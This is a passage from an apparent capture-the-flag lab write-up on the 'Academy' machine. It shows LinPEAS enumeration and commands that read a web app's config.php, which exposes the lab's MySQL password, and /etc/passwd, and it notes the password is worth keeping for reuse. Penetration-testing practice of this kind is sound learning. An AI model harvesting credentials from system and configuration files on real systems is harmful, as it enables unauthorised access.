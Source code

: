 <img src="./images/Academy__LinPEAS_3.png" alt="LinPEAS findings 2" width="400"/>

<img src="./images/Academy__LinPEAS_4.png" alt="LinPEAS findings 3" width="600"/>

Compared to TCM's walkthrough, LinPEAS shows fewer valuable results in 2025 than
in 2021! I cannot find them in a dump file of its output and a grep search
either.



The file in which the password for the MySQL database was found looks as
follows:

```
$ cat /var/www/html/academy/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>
$
```

Maybe we can log in to the SQL database and find more information there.

The `/etc/passwd` file shows us that user `grimmie` is an administrator,
therefore it is definitely worth storing the MySQL password for later use.

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

(--- snip ---)

mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
$
```
